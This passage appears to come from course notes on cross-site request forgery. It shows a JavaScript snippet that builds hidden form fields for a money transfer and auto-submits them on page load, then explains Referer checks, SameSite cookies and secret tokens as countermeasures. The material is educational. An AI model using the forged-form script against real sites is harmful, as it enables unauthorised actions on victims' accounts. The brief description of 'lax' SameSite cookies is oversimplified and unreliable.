 ```
Content-Length: 19
foo=hello&bar=world
```
* POST requests can be generated using HTML forms:
   * `<form action="http://www.example.com/action_post.php" ... <input type="submit" value="Submit"></form>`
* When the user clicks on the submit button, the POST request will be sent to the URL specified in the action field with the field values included in the body
* Attacker's job is to click on the button without the help from the user:
```javascript
function forge_post() {
    var fields;
    fields += "<input type='hidden' name='to' value='3220'>";
    fields += "<input type='hidden' name='amount' value='500'>";

    var p = document.createElement("form");
    p.action = "http://www.example.com/action_post.php";
    p.innerHTML = fields;
    p.method = "post";
    document.body.appendChild(p);
    p.submit();
}

window.onload = function() { forge_post(); }
```
   * Form is created dynamically, and the request type is set to 'POST'
   * The fields in the form are hidden
   * The `forge_post()` function will be invoked when the page is loaded and the form will be submitted automatically

### Countermeasures:
* The server cannot distinguish whether a request is cross-site or same-site
   * Cannot treat same-site and cross-site requests as the same
* However, the browser knows from which page a request is generated
* Referer header:
   * HTTP header field identifying the address of the web page from where the request is generated
   * This field reveals part of the browsing history, causing privacy concerns
   * As a result, it is mostly removed from the header
   * The server cannot use this unreliable source
* Same-site cookies:
   * A special type of cookie in some browsers which provide a special attribute to cookies called `SameSite`
   * This attribute is set by the servers and it tells the browser whether a cookie should be attached to a cross-site request or not
   * Cookies with this attribute are always sent along with same-site requests, but whether they are sent along with cross-site requests depends on the value of the attribute
   * Values: strict (not sent along with cross-site requests) or lax (sent with cross-site requests)
* Secret token:
   * The server embeds a random secret value inside each web page
   * When a request is initiated from this page, the secret value is included with the request
   * The server checks this value to see whether a request is cross-site or not
   * Pages from a different origin will not be able to access the secret value. This is guaranteed by browsers (same origin policy)
   * The secret is randomly generated and is different for each user, so there is no way for attackers to find it out
